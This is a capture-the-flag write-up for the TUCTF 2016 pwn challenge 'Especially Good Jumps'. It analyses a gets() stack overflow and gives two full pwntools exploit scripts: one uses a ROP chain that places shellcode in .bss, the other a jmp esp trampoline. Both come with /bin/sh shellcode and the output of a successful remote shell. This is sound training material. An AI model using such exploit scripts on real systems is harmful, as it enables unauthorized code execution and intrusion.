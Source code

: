 ```yaml
---
layout: post
title: "TUCTF 2016: Especially Good Jumps (pwn 75)"
author: f0rki
categories: writeup
tags: [cat/pwn, tool/binjitsu]
---
```


* **Category:** pwn
* **Points:** 75
* **Description:**

> Pop a shell.
>
> Binary is hosted at: 130.211.202.98:7575
>
> EDIT:
>
> ASLR is enabled on remote server.

## Write-up

We have classic stack-based buffer overflow vulnerability at hand:

```
│           0x0804853f      8d442410       lea eax, [esp + arg_10h]    ; 0x10
│           0x08048543      890424         mov dword [esp], eax
│           0x08048546      e885feffff     call sym.imp.gets
```

`gets` does not bounds-checking whatsoever. Let's check protection mechanisms.

```
checksec 23e4f31a5a8801a554e1066e26eb34745786f4c4
[*] '/media/ctf/tuctf2016/Especially Good Jumps (pwn 75)/23e4f31a5a8801a554e1066e26eb34745786f4c4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

Hooray. Nothing there. This should be easy. The description hinted that we need
to bypass ASLR. The binary also writes to a global variable called `meow`.
Interestingly when you compile a program with `-zexecstack`, it will not only
make the stack executable but also disable execute prevention on other
segments, such as `.bss`. So we could write something like `call esp` into
`meow` and return to it.

```
[0x08048420]> iS~bss
idx=25 vaddr=0x0804a040 paddr=0x00001030 sz=12 vsz=12 perm=--rw- name=.bss
```

The OS will map a whole page for `.bss` even though it's only 12 bytes. So we
can also write all of our shellcode into `.bss`. We'll use a minimal ROP chain
to achieve this.

1. call `gets(&meow)`
2. return to `&meow`

We'll use a simple shell spawning shellcode.


```python
#!/usr/bin/env python

from pwn import *  # NOQA

vulnbinp = "./23e4f31a5a8801a554e1066e26eb34745786f4c4"
velf = ELF(vulnbinp)

# determine how much we need to overwrite until retaddr
# pl = cyclic(201)
# cyclic -c i386 -l 0x6161616c
l = 44

sc = shellcraft.linux.sh()
sca = asm(sc)
log.info("Using shellcode\n" + sc)
log.info(hexdump(sca))

chain = ROP(velf)
chain.call('gets', [velf.symbols['meow']])  # write shellcode
chain.call(velf.symbols['meow'])  # return to shellcode

log.info("Using rop chain\n" + chain.dump())

pl = "A" * l
pl += str(chain)
# pl += "BBBB"
pl += "\n"
pl += str(0x42424242)

vp = process(vulnbinp)
# gdb.attach(vp)
# vp = remote("130.211.202.98", 7575)

vp.send(pl)

vp.sendline(sca)

vp.sendline()
vp.readline()

with context.local(log_level='debug'):
    vp.sendline("id")
    vp.sendline("pwd; ls -al;")
    vp.sendline("cat flag.txt")
    vp.clean_and_log()

vp.interactive()
vp.close()
```


```
[*] '/ctf/tuctf2016/Especially Good Jumps (pwn 75)/23e4f31a5a8801a554e1066e26eb34745786f4c4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
[*] Using shellcode
        /* push '/bin///sh\x00' */
        push 0x68
        push 0x732f2f2f
        push 0x6e69622f

        /* call execve('esp', 0, 0) */
        push (SYS_execve) /* 0xb */
        pop eax
        mov ebx, esp
        xor ecx, ecx
        cdq /* edx=0 */
        int 0x80
[*] 00000000  6a 68 68 2f  2f 2f 73 68  2f 62 69 6e  6a 0b 58 89  │jhh/│//sh│/bin│j·X·│
    00000010  e3 31 c9 99  cd 80                                  │·1··│··│
    00000016
[*] Loaded cached gadgets for './23e4f31a5a8801a554e1066e26eb34745786f4c4'
[*] Using rop chain
    0x0000:        0x80483d0 gets(134520904)
    0x0004:        0x804839d <adjust: pop ebx; ret>
    0x0008:        0x804a048 meow
    0x000c:        0x804a048 0x804a048()
    0x0010:           'eaaa' <pad>
[+] Opening connection to 130.211.202.98 on port 7575: Done
[DEBUG] Sent 0x3 bytes:
    'id\n'
[DEBUG] Sent 0xd bytes:
    'pwd; ls -al;\n'
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[*] Switching to interactive mode
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЃ\x0\x9d\x83\x0H\xa0\x0��\x9d\x83\x0H\xa0\x0H\xa0\x0haaa, 1111638594 is an even number!
uid=1002(pwn75) gid=1002(pwn75) groups=1002(pwn75)
/home/pwn75
total 32
drwxr-x--- 2 root pwn75 4096 May 11 19:12 .
drwxr-xr-x 8 root root  4096 May 12 17:48 ..
-rw-r--r-- 1 root pwn75  220 May 11 18:54 .bash_logout
-rw-r--r-- 1 root pwn75 3637 May 11 18:54 .bashrc
-rw-r--r-- 1 root pwn75  675 May 11 18:54 .profile
-rwxr-xr-x 1 root pwn75 7548 May 11 18:48 easy
-r--r----- 1 root pwn75   44 May 11 18:52 flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
$

```

Done :)


For completeness reasons, here is the variant where we write `jmp esp` into
`meow` and return there. Well this exploit is kind of simpler.

```python
#!/usr/bin/env python

from pwn import *  # NOQA

vulnbinp = "./23e4f31a5a8801a554e1066e26eb34745786f4c4"
velf = ELF(vulnbinp)

# pl = cyclic(201)
# cyclic -c i386 -l 0x6161616c
l = 44

sc = shellcraft.linux.sh()
sca = asm(sc)
log.info("Using shellcode\n" + sc)

meow = u16(asm('jmp esp'))

pl = "A" * l  # fill stack
pl += p32(velf.symbols['meow'])  # return to meow
pl += asm(shellcraft.nop()) * 8  # some nops
pl += sca  # actual shellcode
# pl += "BBBB"
pl += "\n"
pl += meow  # write 'jmp esp' into meow

log.info("Sending payload:\n" + hexdump(pl))

vp = process(vulnbinp)
gdb.attach(vp)
# vp = remote("130.211.202.98", 7575)

vp.send(pl)

vp.sendline()
vp.readline()

with context.local(log_level='debug'):
    vp.sendline("id")
    vp.sendline("pwd; ls -al;")
    vp.sendline("cat flag.txt")
    vp.clean_and_log()

vp.interactive()
vp.close()
```
